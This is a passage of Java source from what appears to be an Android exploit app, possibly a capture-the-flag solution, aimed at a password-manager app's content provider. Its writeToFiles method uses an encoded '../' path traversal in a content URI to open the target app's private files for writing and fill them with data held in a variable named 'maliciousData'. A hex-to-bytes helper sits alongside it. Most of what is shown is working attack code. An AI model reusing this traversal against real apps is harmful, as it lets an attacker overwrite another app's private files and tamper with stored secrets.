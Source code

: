 ```java

                // Close the ParcelFileDescriptor
                pfd.close();

                // Log success
                Log.d(TAG, "File write successful: " + fileUri.toString());
            } else {
                // Log error if pfd is null
                Log.d(TAG, "Failed to open file descriptor for: " + fileUri.toString());
            }
        } catch (IOException e) {
            // Log the exception in case of failure
            Log.d(TAG, "Error writing to file: " + e.getMessage());
            e.printStackTrace();
        } catch (Exception e) {
            Log.d(TAG, "Unexpected error: " + e.getMessage());
            e.printStackTrace();
        }
    }

    // Helper function to convert hex string to byte array
    public static byte[] hexStringToByteArray(String s) {
        int len = s.length();
        byte[] data = new byte[len / 2];
        for (int i = 0; i < len; i += 2) {
            data[i / 2] = (byte) ((Character.digit(s.charAt(i), 16) << 4)
                    + Character.digit(s.charAt(i+1), 16));
        }
        return data;
    }


    public static void writeToFiles(Context context, String location, String content) {
        try {
            // Ensure context is valid
            if (context == null) {
                Log.d(TAG, "Context is null");
                return;
            }

            // Construct the content URI to access the target file
            Uri fileUri = Uri.parse("content://com.aimardcr.pwdmanager/%2E%2E%2Ffiles%2F"+location);
            Log.d(TAG, "File URI constructed: " + fileUri.toString());

            // Get ContentResolver and open the file descriptor
            ContentResolver contentResolver = context.getContentResolver();
            ParcelFileDescriptor pfd = contentResolver.openFileDescriptor(fileUri, "w"); // Open file in write mode
            Log.d(TAG, "ParcelFileDescriptor opened");

            if (pfd != null) {
                Log.d(TAG, "SUKSES");

                FileOutputStream fileOutputStream = new FileOutputStream(pfd.getFileDescriptor());
                String maliciousData = content;

                fileOutputStream.write(maliciousData.getBytes());
                fileOutputStream.close();

                // Close the ParcelFileDescriptor
                pfd.close();

```
